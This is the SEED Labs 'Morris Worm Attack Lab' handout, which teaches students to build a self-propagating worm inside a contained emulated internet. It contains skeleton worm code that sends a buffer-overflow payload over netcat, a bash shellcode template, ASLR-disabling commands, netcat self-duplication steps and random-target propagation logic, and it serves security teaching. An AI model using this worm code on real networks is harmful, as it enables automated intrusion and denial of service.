




# Morris Worm Attack Lab

```
Copyright © 2021 by Wenliang Du.
This work is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License. If you remix, transform, or build upon the material, this copyright notice must be left intact, or reproduced in a way that is reasonable to the medium in which the work is being re-published.
```
## 1 Overview

The Morris worm (November 1988) was one of the oldest computer worms distributed via the Internet, and the first to gain significant mainstream media attention [1]. While it is old, the techniques used by most worms today are still the same, such as the WannaCry ransomware in 2017. They involve two main parts: attack and self-duplication. The attack part exploits a vulnerability (or a few of them), so a worm can get entry to another computer. The self-duplication part is to send a copy of itself to the compromised machine, and then launch the attack from there. A detailed analysis of the Morris worm was given by Spafford [2].
<Br>
&emsp; The goal of this lab is to help students gain a better understanding of the behavior of worms, by writing a simple worm and testing it in a contained environment (an Internet emulator). Although the title of this lab is called Morris worm, the underneath technique used is quite generic. We have broken down the technique into several tasks, so students can build the worm incrementally. For testing, we built two emulated Internets,
a small one and a larger one. Students can release their worms in each of these Internets, and see how their worms spread across the entire emulated Internet. The lab covers the following topics:

- Buffer-overflow attack
- Worm’s self-duplication and propagation behavior
- The SEED Internet emulator
- Network tools

**Prerequisite.** There are several parts in this lab, including attacking, self duplication, and propagation. The attacking part exploits the buffer-overflow vulnerability of a server program. This vulnerable server is the same as the one used in the Level-1 task of the buffer-overflow attack lab (the server version). We suggest that students work on the buffer-overflow lab first before working on this lab, so they can focus on the worm part in this lab.

**Lab environment.** This lab has been tested on our pre-built Ubuntu 20.04 VM, which can be downloaded from the SEED website. Since we use containers to set up the lab environment, this lab does not depend much on the SEED VM. You can do this lab using other VMs, physical machines, or VMs on the cloud.

## 2 The Lab Setup and the SEED Internet Emulator

This lab will be performed inside the SEED Internet Emulator (simply called the emulator in this document). If this is the first time you use the emulator, it is important that you read this section. We recommend instructors to provide a lab session to help students get familiar with the emulator.

Files needed for this lab are included in Labsetup.zip, which can be fetched by running the following commands.

```
$ sudo wget https://seedsecuritylabs.org/Labs_20.04/Files/Morris_Worm/Labsetup.zip
$ sudo unzip Labsetup.zip
```

### 2.1 The Internet Emulator

We provide a pre-built emulator in two different forms: Python code and container files. The container files are generated from the Python code, but students need to install the SEED Emulator source code from the GitHub to run the Python code. The container files can be directly used without the emulator source code. Instructors who would like to customize the emulator can modify the Python code, generate their own container files, and then provide the files to students, replacing the ones included in the lab setup file. See the `README.md` file for instructions.

**Download the emulator files.** Please download the `Labsetup.zip` file from the web page, and unzip it. The files inside the container folder are the actual emulation files (container files); they are generated by the Python code. The name of the container folder is called `output/` for most labs, but if a lab has multiple emulators, it will use different folder names. The actual names will be given in the lab task.

**Start the emulation.** We will directly use the files in the container folder. Go to this folder, and run the docker commands to build and start the containers. We recommend that you run the emulator inside the provided SEED Ubuntu 20.04 VM, but doing it in a generic Ubuntu 20.04 operating system should not have any problem, as long as the docker software is installed. Readers can find the docker manual from [this link](https://github.com/seed-labs/seed-labs/blob/master/manuals/docker/SEEDManual-Container.md). If this is the first time you set up a SEED lab environment using containers, it is very important that you read the user manual.
<Br>
&emsp; In the following, we list some of the commonly used commands related to Docker and Compose. Since we are going to use these commands very frequently, we have created aliases for them in the `.bashrc` file (in our provided SEEDUbuntu 20.04 VM).

```
$ docker-compose build      # Build the container images
$ docker-compose up         # Start the containers
$ docker-compose down       # Shut don the containers


// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
```

&emsp; All the containers will be running in the background. To run commands on a container, we often need to get a shell on that container. We first need to use the "`docker ps`" command to find out the ID of the container, and then use "`docker exec`" to start a shell on that container. We have created aliases for them in the `.bashrc` file.
```
$ dockps        // Alias for: docker ps --format "{{.ID}} {{.Names}}"
$ docksh <id>  // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275 hostA-10.9.0.5
0af4ea7a3e2e hostB-10.9.0.6
9652715c8e0a hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#

// Note: If a docker command requires a container ID, you do not need to
//       type the entire ID string. Typing the first few characters will
//       be sufficient, as long as they are unique among all the containers.
```
&emsp; If you encounter problems when setting up the lab environment, please read the “Common Problems” section of the manual for potential solutions.

**Set the terminal title.** We may need to get into several containers using the terminal. We will likely create several terminal tabs, and switch back and forth among these tabs. We can easily get lost, because it is difficult to know which tab runs which container. To solve this problem, once we are inside a container, we can set the terminal title using one of the following commands (it sets the title to "`New Title`").
<pre>
# set_title New Title
# st New Title          <b> <---- st </b> is an alias of set_title
</pre>

### 2.2 The Map of the Emulated Internet



<p align="center">Figure 1: The map of the emulated Internet</p>

&emsp; Each computer (hosts or routers) running inside the emulator is a docker container. Users can access these computers using docker commands, such as getting a shell inside a container. The emulator also comes with a web application, which visualizes all the hosts, routers, and networks. After the emulator starts, the map can be accessed from this URL: `http://localhost:8080/map.html`. See Figure 1. To zoom in/out, use the mouse middle scroll. Click on any node, the detailed information of that node will be displayed on the side panel, from where, users can get a console on that node (container).

**Note:** At this point, we are still actively improving the Map application, so the map container is not included in the internet emulator folder. Instead, it is included in a separate folder, the `Labsetup/map` folder. Please go to this folder, run `dcbuild` and `dcup` to build and start the Map container. Then you can access the Map using the URL mentioned above.

### 2.3 Filtering and Replying



<p align="center">Figure 2: Capturing and replaying events</p>

&emsp; Users can also set filters to visualize network traffic. The syntax of the filter is the same as that in `tcpdump`; actually, the filter is directly fed into the `tcpdump` program running on all nodes. When a node sees the packets that satisfy the filter, it sends an event to the map, which will highlight the node briefly on the map.
<Br>
&emsp; Sometimes, a sequence of events happen too fast to see the actual order among them. In this case, we can use the Replay panel (see Figure 2) to record the events and then replay them at a slower pace. The speed of replaying can be adjusted by changing the event interval.

## 3 Task 1: Get Familiar with the Lab Setup

We provide two setups for this lab, one with 275 containers (called mini internet) and the other with 15 containers (called nano internet). The larger one is used for the final task (Task 6). For all others, we will use the smaller one, as it is much quicker to set up. When everything works, we will switch to the mini internet setup. In this task, we will only start the nano internet. Instructions on how to start the mini internet
will be given in Task 6.
<Br>
&emsp; The nano internet has three autonomous systems (ASes), which peer with one another at a single Internet exchange. Each AS has one internal network, and its network prefix is `10.X.0.0/24`, where `X` is `151` , `152` , and `153`. Each network has five hosts, with the host IDs ranging from `71` to `75`.
<Br>
&emsp; Go to the `Labsetup/internet-nano` folder, follow the instruction in Section 2 to start the containers (i.e. use `dcbuild` to build and `dcup` to start). This will start the nano internet emulator. We have also implemented a visualization tool to help visualize the networks in the emulator. The tool is installed in a separate container inside the `Labsetup/map` folder. Go to this folder, run `dcbuild` and `dcup` to bring it up. Once the emulator and the Map have been started, point the browser to `http://localhost:8080/map.html`, and you can see the network diagram (see Figure 3).
<Br>
&emsp; Get a terminal on one of the host containers, type "`ping 1.2.3.4`" on the container, and then type "`icmp and dst 1.2.3.4`" in the filter box of the Map (without the quotations; do not forget to press



<p align="center">Figure 3: The nano internet </p>

return). The machine running the `ping` command will flash. We will use this mechanism to visualize which hosts are infected by the worm: once a host is infected, we run "`ping 1.2.3.4`" , so the node corresponding to the host can flash on the map.

## 4 Task 2: Attack the First Target

In this task, we focus on the attacking part of the worm. The Morris worm exploited several vulnerabilities to gain entry to targeted systems, including a buffer-overflow vulnerability in the `fingerd` network service, a hole in the debug mode of the Unix `sendmail` program, and the transitive trust established by users for the remote shell [1, 2]. For the sake of simplicity, we will only exploit the buffer-overflow vulnerability.
<Br>
&emsp;  We have installed a vulnerable server on all the containers, and they all have a buffer-overflow vulnerability. The goal of this task is to exploit this vulnerability, so we can run our malicious code on the server. The attack part is the same as the Level-1 task in the Buffer-Overflow Lab, so if students have worked on that lab before, they can reuse the code from that lab here. We will not duplicate the instruction in this lab.
Students can read the lab description of the Buffer-Overflow Lab (server version) to learn the setup of the server and the guidelines on the attack.
<Br>
&emsp; First, we need to turn off the address randomization. This kernel parameter is global, so once we turn it off from the host machine, all the containers are affected.
```
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```
&emsp; All the non-router containers in the emulator run the same vulnerable server. With the address randomization disabled, all the servers will have the identical parameters, the addresses of the buffer and the value of the frame pointers will be the same across all the containers. This makes attack easier. The simplification is made because the focus of this lab is on the worm crawling part, instead of on the attack part. The attack
part is the main focus of the Buffer-Overflow Attack Lab.

### 4.1 The Skeleton Code

We provide a skeleton code in the `Labsetup/worm` folder. We will complete this code gradually, one thing at a time in each task. In this task, we focus on completing the `createBadfile ()` function, which is to generate the malicious payload for the buffer-overflow attack. We will launch this attack against our first target. We can choose any host as our first target. In the code, we have hard-coded the target `10.151.0.71`. (Line ➀). Students should feel free to change it. In a later task, we will generate the target IP address, instead of hard-coding one.
<Br>
&emsp; To help visualize the attack, we let the worm run a ping command in the background once it successfully gets into a victim host (see Line ➁). This command sends out an ICMP echo message to a non-existing machine every 2 seconds. Our Map application will flash the node after seeing its ICMP messages. That is just one way to visualize the compromised hosts.

<p align="center">Listing 1: The attack code: "worm.py"</p>

```
shellcode= (
    ... code omitted (will be discussed later) ...
).encode(’latin-1’)

# Find the next victim (return an IP address)
def getNextTarget():
    return ’10.151.0.71’                                         ➀

# Create the badfile (the malicious payload)
def createBadfile():
    ... code omitted (will be discussed later) ...

############################################################
print("The worm has arrived on this host ˆ_ˆ", flush=True)

# Run the ping program in the background
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)            ➁

# Create the badfile
createBadfile()

while True:
    targetIP = getNextTarget()

    # Send the malicious payload (smaller payload) to the target host
    # This is done via exploiting the server’s vulnerability
    # It will block until the command exits
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"],
                        shell=True, stdin=None, close_fds=True)

    # Sleep for 1000 seconds before attacking another host
    # We will reduce this value later
    time.sleep(1000)
```

### 4.2 Creating the badfile

Let’s first send a benign message to our target server. We will see the following messages printed out by the target container (the actual messages you see may be different).
```
// On the host machine
$ echo hello | nc -w2 10.151.0.71 9090

// Messages printed out by the container
as151h-host_0-10.151.0.71 | Starting stack
as151h-host_0-10.151.0.71 | Input size: 6
as151h-host_0-10.151.0.71 | Frame Pointer (ebp) inside bof(): 0xffffd5f8     ✰
as151h-host_0-10.151.0.71 | Buffer’s address inside bof(): 0xffffd588        ✰
as151h-host_0-10.151.0.71 | ==== Returned Properly ====
```
&emsp; For the sake of simplicity, we let the server print out some of its internal parameters (see lines marked by ✰). Students are allowed to use these parameters when constructing their attacks. In particular, they need to modify Lines ➀ and ➁ inside `createBadfile ()`.
```
def createBadfile():
    content = bytearray(0x90 for i in range(500))
    ##################################################################
    # Put the shellcode at the end
    content[500-len(shellcode):] = shellcode

    ret     = 0x00         ➀
    offset  = 0x00         ➁


    content[offset:offset + 4] = (ret).to_bytes(L,byteorder=’little’)
    ##################################################################


    # Save the binary code to file
    with open(’badfile’, ’wb’) as f:
        f.write(content)
```
&emsp; To test the attack, simply run the attack program `worm.py`. It will generate the badfile, and then send its content to the target server. If you see a smiley face printed out on the target machine, that means that you are attack has succeeded, and your injected code has been executed.
```
$ chmod +x worm.py
$ ./worm.py
```
**Lab task.** Please modify the provided skeleton code `worm.py`, launch the attack against the first target, and demonstrate that your attack is successful.

### 4.3 The Shellcode

The malicious code that we would like to run on the target server is called shellcode, which is typically written using the assembly language and then converted to the binary machine code. In this lab, we only provide the binary version of a generic shellcode, without explaining how it works, because it is non-trivial. If students are interested in how exactly shellcode works and want to write a shellcode from scratch, they can learn that from a separate SEED lab called *Shellcode Lab.*

<Br>

&emsp; The provided shellcode (listed below) executes "/bin/bash -c commands", where `commands` are the commands put inside Lines ➀, ➁, and ➂. Students can put whatever shell commands they want in these spaces (commands should be separated by semicolons or `&&`). We provide enough space (180 bytes) as students may need to run a long list of commands in the subsequent tasks.
<Br>
&emsp; When putting commands in these three lines, make sure never change their length, or the shellcode may not work. Each line is exactly 60 characters long (see the ruler in Line ➃). When the shellcode runs, the * character at the end of Line ➂ will be replaced by a binary zero to mark the end of the command string. The offset of the * character is hardcoded in the binary code, so if the commands are longer than 180 bytes, they will be cut off.
```
shellcode= (
    ... the binary code is omitted ...
    "/bin/bash*"
    "-c*"
    " echo ’(ˆ_ˆ) Shellcode is running (ˆ_ˆ)’; echo                 "  ➀
    "                                                               "  ➁
    "                                                              *"  ➂
    "123456789012345678901234567890123456789012345678901234567890"     ➃
    # The line above serves as a ruler; it is not used by the shellcode.
).encode(’latin-1’)
```
&emsp; The assembly code for this shellcode is provided in the `Labsetup/shellcode` folder. Students who are interested in writing their own shellcode can modify the code there. Detailed instructions on how to write shellcode is given in a separate SEED lab, called *Shellcode* Development Lab.

## 5 Task 3: Self Duplication

A malicious program can be calledwormif it can spread from one place to another place automatically. To do that, the worm must be able to copy itself from one machine to another machine. This is called self duplication, which is the focus of this task. There are two typical strategies used by worms to achieve self duplication.

- Approach 1: Put all the code inside the malicious payload (i.e., the shellcode). Using this approach, the self-duplication part needs to be included in the shellcode. Since the shellcode is typically written using the assembly language, implementing sophisticated functionalities may be quite challenging.

- Approach 2: Divide the attack code into two parts, a small payload that contains a simple pilot code, and a larger payload that contains more sophisticated code. The pilot code is the shellcode included in the malicious payload in the buffer-overflow attack. Once the attack is successful and the pilot code runs a shell on the target, it can use shell commands to fetch the larger payload from the attacker machine, completing the self duplication. The more sophisticated program can be written using any language, such as C, Python, or shell script.

&emsp; The Morris worm uses the second approach. We do encourage students to try both both approaches, but only one is required. Instructors may choose to grant bonus points at their own discretion for students who have implemented both, so check with your instructors.
<Br>
&emsp; To use the second approach, we need to find a way to send files from one computer to another. There are many ways to do that, and students are encouraged to explore and find their own solutions. Worms should not download the files from a central place (such as a website), because its creates a single point of failure for the worm; once this central place is shut down, the worm will stop crawling. A worm typically downloads the needed files from its direct predecessor. Namely, if a worm crawls from A to B, and then
from B to C, once it arrives at C, it should copy the files only from C.
<Br>
&emsp; To get files from another computer, we need to have a client and a server program. On our emulators, many client/server programs have already been installed. Students can choose to use whatever are available on the hosts. In the following, we show how to use the `nc`(or `netcat`) command to download files. It can be used to start a TCP client and server.
<Br>
&emsp; In the following example, we start the server on one computer, and start the client on another computer. The server gets its input from `myfile`, and send the content to the client. The client saves whatever is received from the server to file `myfile`. This completes the file transfer.
```
// Server provides the file
$ nc -lnv 8080 < myfile

// Client gets the file from the server
$ nc -w5 <server_ip> 8080 > myfile
```
&emsp; Typically, we need to start the server first, and then run the client program. However, we can start the client before running the server. We just need to use the `-w5` option on the client. With this option, the client will try to make a connection with the server for 5 seconds. As long as the server can be started within this time window, the connection will go through.
<Br>
&emsp; In the example above, the server sends a file to the client. We can send files in the opposite direction, i.e., the client sends a file to the server.
```
// Server gets the file from client
$ nc -lnv 8080 > myfile

// Client provides the file
$ cat myfile | nc -w5 <server_ip> 8080
```
**Lab task.** Add the self-duplication feature to your worm, so when the buffer-overflow attack is successful, a copy of the worm, i.e., `worm.py` is copied to the victim machine. You can get a shell on the victim container, and check whether a copy is created there or not.

## 6 Task 4: Propagation

After finishing the previous task, we can get the worm to crawl from our computer to the first target, but the worm will not keep crawling. Students need to make changes to `worm.py` so the worm can continue crawling after it arrives on a newly compromised machine.
<Br>
&emsp; Several places in `worm.py` need to be changed. One of them is the `getNextTarget` (), which hard-codes the IP address of the next target. We would like this target addresses to be a new machine. The Morris worm uses several strategies to find the next attack candidate. For the sake of simplicity, students just need to randomly generate an IP address. To further reduce the attack time, we provide the following prior knowledge (intentionally made vague) for students to use when they generate the IP address for the
next target:

- The IP addresses of all the hosts in the emulator have the following pattern: `10.X.0.Y`, where Xranges from `151 to 155 `, andYranges from `70 to 80`.

**Generating random numbers.** In Python, generating random numbers is quite simple. The following code gives an example: it generates a random integer number from 100 to 200.
```
from random import random

number = randint(100, 200)
```
**Testing whether a machine is alive or not.** Before attacking a randomly selected target, it is better to check whether the target is alive or not. There are many ways to do that. One approach is to use the `ping` command to send an echo request to the target, and check whether the target has sent back a reply.
<Br>
&emsp; In the following code snippet, we send out one ping packet (`-c1`) to the target `1.2.3.4`, wait one second (`-W1`) for the reply, and then check whether the output of the command contains "`1 received`", indicating that the reply has been received.
```
ipaddr = ’1.2.3.4’
output = subprocess.check_output(f"ping -q -c1 -W1 {ipaddr}", shell=True)
result = output.find(b’1 received’)

if result == -1:
    print(f"{ipaddr} is not alive", flush=True)
else:
    print(f"*** {ipaddr} is alive, launch the attack", flush=True)
```
**Lab tasks.** After finishing this step, students need to demonstrate that their worms can spread from one computer to another, and eventually reach the entire nano internet. In your initial attack, you should only release the worm on one of the nodes, instead of keep attacking the other nodes from your attack machine. We want the worm to attack others automatically.
<Br>
&emsp; Let the attack continue for some time, and keep a close eye on the CPU and memory usages. Once the CPU usage hits 100 percent, shut down the nano internet (using `dcdown` or "`docker-compose down`" ). If you wait too long, your VM may freeze, i.e., you have successfully brought down the internet.
<Br>
&emsp; You can use the `htop` command to observe the resource usages. If your machine does not have this command, you can easily install it using the following command:
```
$ sudo apt update && sudo apt install htop
```
## 7 Task 5: Preventing Self Infection

It was believed that the Morris worm did not intend to cause real harms to the target computers, but a bug in its code caused a denial-of-service attack on the targets. The main reason was that the worm failed to prevent self infection. Once a computer is compromised, an instance of the worm will run in a separate process. If this computer gets compromised again, a new instance of the worm will start running. If the worm does not have a mechanism to check whether a computer has already been infected or not, many new instances of the worms will be spawn, consuming more and more resources, and eventually bring the target machines to their knees or, in many cases, crash them. The Morris worm does have a checking mechanism, but there was a bug in the code.
<Br>
&emsp; In this task, students need to add such a checking mechanism to their worm code to ensure that only one instance of the worm can run on a compromised computer. Once this is implemented, during the attack, the CPU usage will unlikely reach the 100 percent. Please provide the evidence in your lab report.

## 8 Task 6: Releasing the Worm on the Mini Internet

In this task, we will switch to a larger internet, the mini internet. This task is more for enhanced satisfaction, as seeing how the worm spread in a more realistic emulated internet is more satisfactory. 
<Br>
&emsp; For this setup, at least 8GB of RAM and 2 cores are required for the VM; otherwise, the emulator will be very slow. Go to your VM’s settings from VirtualBox, make changes accordingly (the VM needs to be shutdown before these changes can be made).

**Note for students and instructors:** If students’ machines are not powerful enough, they should discuss with their instructors to find an alternative, such as using a public machine or a cloud machine. In our class at the Syracuse University, we did encounter this situation. We just asked these students (only a small number) to submit their code, and we (the TA or instructor) tested the attack code against our own emulator to see the result. Students can still use the nano internet setup to do their preliminary testing.

### 8.1 Start the Mini-Internet Emulator

The container files for this emulator are stored in the `Labsetup/internet-mini` folder. Go to this folder, run the following commands to build containers and start them.
```
$ dcbuild   # alias for "docker-compose build"
$ ./z_start.sh
```
&emsp; Due to a bug in the `docker-compose` program, simultaneously bringing up these 200+ containers using "`docker-compose up`" will fail. Using the command in `zstart.sh`, we bring up the containers 10 at a time to avoid the problem. Please do not add any file or folder in the `internet-mini/` folder, or the command will fail. If you do want to add files/folders in this folder, you can modify the `grep` command in `zstart.sh` to exclude them. Once the emulator starts running, we can see its networks using the browser (see Figure 4).
&emsp; Using this method, we have to bring up the containers in the detached mode (the purpose of the `-d` option). Therefore, we will not be able see the logs printed out by each container. To see the logs, we can use the following command (use `Ctrl-c` to exit without stopping the container):
```
$ docker logs -f <container ID>
```
 &emsp; Due to the large number of containers, interacting with the containers using the Map is slow. It is better to directly interact with the containers using the docker command. The following command lists all the containers in the AS-153 autonomous system. For the sake of convenience, we include the autonomous system number and the IP address in the container name.
```
$ dockps | grep as
9869c5085bf7 as153h-host_0-10.153.0.71
843a920c60f5 as153h-host_10-10.153.0.81
286d97c102dc as153h-host_1-10.153.0.72
...
```



<p align="center">Figure 4: The mini internet</p>

### 8.2 Launch the Attack

The attack code used on the nano internet should be able to work directly in the mini internet, although students may need to change their random number generation to cover the IP addresses in a larger range. The following facts can be used:

<Br>
&emsp; The IP addresses of all the hosts in the emulator have the following pattern: `10.X.0.Y`, where Xranges from `151` to `180` , and `Y` ranges from `70` to `100`.
<Br><Br>

**You should only release the worm on one of the nodes, instead of keep attacking the other nodes from your attack machine.** The worm is supposed to spread across the Internet automatically. You do need to provide evidences to show this behavior.
<Br>
&emsp; By typing the "`icmp and dst 1.2.3.4`" in the filter box, we can visualize which machines are
infected by the worm. If you have implemented everything correctly, the spreading rate will be exponential.
<Br>
A demonstration video of the attack can be found from [this link](https://youtu.be/2VZV-aFoVjk) on YouTube.
<Br>
&emsp; For this task, students should record a short demonstration video, similar to the provided sample video. During the demo, the map should be used to visualize the spreading of the worm. Students should submit this video (unless the instructor says the otherwise).

## 9 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits. For Task 6, as indicated in the task, a short demonstrate video should also be submitted.

## Acknowledgment

This lab was developed with the help of several students in my *Computer Security (CSE643)* class at the Syracuse University in Fall 2021. The SEED project was funded in part by the grants from the US National Science Foundation and Syracuse University.

## References


[1] Wikipedia contributors, “Morris worm — Wikipedia, The Free Encyclopedia”, `https://en.wikipedia.org/w/index.php?title=Morris_worm&oldid=1059312237`
<Br> [2] Spafford, Eugene, “An analysis of the worm”, December 8, 1988, Purdue University.


